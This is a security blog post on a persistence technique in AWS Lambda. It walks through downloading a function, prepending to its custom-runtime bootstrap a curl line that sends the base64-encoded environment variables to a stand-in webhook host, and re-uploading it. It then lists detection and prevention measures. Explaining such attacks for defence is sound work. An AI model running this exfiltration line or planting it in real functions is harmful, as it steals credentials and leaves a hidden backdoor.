 ```yaml
---
title: Unmasking Lambda's Hidden Threat - When Your Bootstrap Becomes a Backdoor
date: 2025-07-11
authors:
  - sergiojimenez
  - guillermogonzalez
categories:
  - AWS Security
  - Serverless
    - Cloud Hacking
  - Persistence
  - Lambda
---
```


-----
## Unmasking Lambda's Hidden Threat: When Your Bootstrap Becomes a Backdoor

So, you've jumped on the serverless bandwagon, huh? All that auto-scaling, no servers to patch, just pure code magic. It feels invincible, right? Well, sorry to burst your bubble, but even in the land of ephemeral functions, bad actors are finding ways to stick around longer than an awkward family dinner. Today, we're pulling back the curtain on one of those particularly sneaky tricks: achieving persistence in AWS Lambda by messing with its very heart – the custom runtime `bootstrap` file.

### Why the Bootstrap? Understanding the Context

AWS Lambda allows developers to use custom runtimes. This is made possible by the **Lambda Runtime API** and a key executable: the `bootstrap` file. When a Lambda function with a custom runtime is invoked, AWS calls this `bootstrap` file. Its purpose is to initialize the runtime environment, load the function's code and manage the lifecycle of invocations, directly interacting with the Runtime API to send and receive events.

Herein lies the opportunity for an attacker: if a function with a custom runtime is compromised and sufficient permissions are obtained, modifying this `bootstrap` allows malicious code to be injected. This code will execute *before* the legitimate function code on every invocation, ensuring stealthy persistence, even if the main function's code is subsequently updated.

### The Attack in Detail: Simulating Persistence

Simulating this attack requires initial access to the compromised Lambda function and permissions to modify its code.

**Prerequisites:**

* An existing Lambda function with a **custom runtime**.
* IAM permissions for `lambda:UpdateFunctionCode`.
* Ability to write to `/tmp` or `/var/task` (though direct `bootstrap` modification is more direct).
* A webhook for exfiltration (e.g., `webhook.site`).

**Simulation Steps:**

1.  **Download the current function:**
    The first step is to get the function's code. This can be done using `aws lambda get-function --function-name your-function-name --query 'Code.Location'` to get the ZIP package URL, then downloading it.

    ```bash
    aws lambda get-function --function-name my-affected-function --query 'Code.Location' --output text > code_location.txt
    wget -O function.zip $(cat code_location.txt)
    unzip function.zip -d extracted_function
    ```

2.  **Edit the `bootstrap`:**
    Inside the `extracted_function` directory, locate the `bootstrap` file. Add a malicious line to the beginning of this file. For example, to exfiltrate environment variables to your webhook:

    ```bash
    # Add this line to the beginning of the 'extracted_function/bootstrap' file
    curl -X POST -H "Content-Type: application/json" -d "$(env | base64)" [https://your-malicious-webhook.site/path](https://your-malicious-webhook.site/path) &
    ```
    The `&` at the end is crucial for the command to execute in the background and not block the runtime's startup, allowing the legitimate function to run without obvious interruptions for the user or application.

3.  **Upload the changes:**
    Repackage the function and upload it to AWS.

    ```bash
    zip -r new_function.zip extracted_function/
    aws lambda update-function-code --function-name my-affected-function --zip-file fileb://new_function.zip
    ```

Once the function is invoked, the malicious `bootstrap` will execute, sending the desired information to your webhook, all while the original function proceeds normally.

### Implications and Comparison with Other Techniques

This technique is particularly stealthy because the `bootstrap` is a fundamental file for the runtime, and its modification can go unnoticed if not explicitly audited. Unlike simply modifying the function code (which could be overwritten by a legitimate deployment), the `bootstrap` change persists through updates to the main function's code, as the `bootstrap` is part of the runtime environment, not the application code.

Other Lambda persistence techniques include:
* **Backdooring existing runtimes (e.g., Python/Node.js):** Modifying standard libraries or modules so that malicious code executes when the function imports them.
* **"Runtime Swapping":** Changing an existing function's runtime to a custom one controlled by the attacker.
* **Malicious Layers:** If an attacker can create or modify a Lambda Layer used by a target function, they can inject compromised code or dependencies.

The `bootstrap` attack stands out for its subtlety and ability to survive legitimate code deployments, making it an advanced and dangerous technique.

### Fortifying Your Defenses: Prevention and Detection

Detecting and preventing these types of attacks requires a multifaceted and proactive approach to serverless security.

1.  **Continuous Detection and Monitoring (Runtime and Behavior):**
    * **Amazon CloudTrail:** Monitor and alert on critical events such as `UpdateFunctionCode`, `CreateFunction`, `CreateFunctionUrlConfig`, and `UpdateFunctionConfiguration`. Set up Amazon EventBridge alarms for immediate notifications of any unexpected function modifications.
    * **Amazon GuardDuty & AWS Security Hub:** Enable these services. GuardDuty can detect anomalous behavior, such as unusual outbound connections to suspicious domains from a Lambda function that normally shouldn't communicate externally. Security Hub consolidates findings and offers centralized visibility.
    * **Runtime Security:** Implement third-party solutions like Sysdig, Upwind, Palo Alto Networks Prisma Cloud, Aqua Security, or Lacework. These tools can detect command injections, runtime file modifications (`bootstrap`), or anomalous processes within the Lambda environment.

2.  **`bootstrap` Content Review:**
    * **Manual and Automated Auditing:** For functions with custom runtimes, the `bootstrap` file must be rigorously audited. Integrate validations in your CI/CD pipelines that block deployments with suspicious commands (e.g., `curl`, `nc`, `wget`) or unauthorized changes in the `bootstrap`.
    * **Hash Monitoring:** Use `aws lambda get-function --query 'Configuration.CodeSha256'` to get the ZIP code hash. Store and monitor these hashes to detect any unexpected changes in the function's deployment package.

3.  **Supply Chain Security:**
    * **Code Signing:** AWS Lambda supports code signing. Enable this feature to ensure that only code packages signed by trusted entities can be deployed to your functions. This would thwart any attempt to deploy a modified `bootstrap` without the proper signature.
    * **Container Image Scanning:** If you use container images as a runtime for Lambda, integrate Amazon Inspector or third-party tools into your pipeline to continuously scan images for vulnerabilities and malicious content, including `bootstrap` modifications.

4.  **Least Privilege and Isolation Principles:**
    * **IAM Least Privilege:** Ensure that Lambda deployment IAM roles (`lambda:UpdateFunctionCode`) and execution roles (`lambda:InvokeFunction`) have only the strictly necessary permissions. Avoid granting excessive permissions that could be exploited.
    * **Network Restrictions (VPC):** Place critical Lambda functions within an Amazon VPC. If a function does not require internet access, avoid configuring a NAT Gateway. This drastically restricts an attacker's ability to exfiltrate data to external webhooks.

---

The world of serverless security is always evolving, and as defenders, so must we. Understanding how seemingly benign components like the `bootstrap` can be weaponized is key to staying ahead. Keep your eyes peeled, your CloudTrails flowing, and your security tools sharp. The cloud might feel like magic, but even magic has its dark corners – it's up to us to shine a light on them.
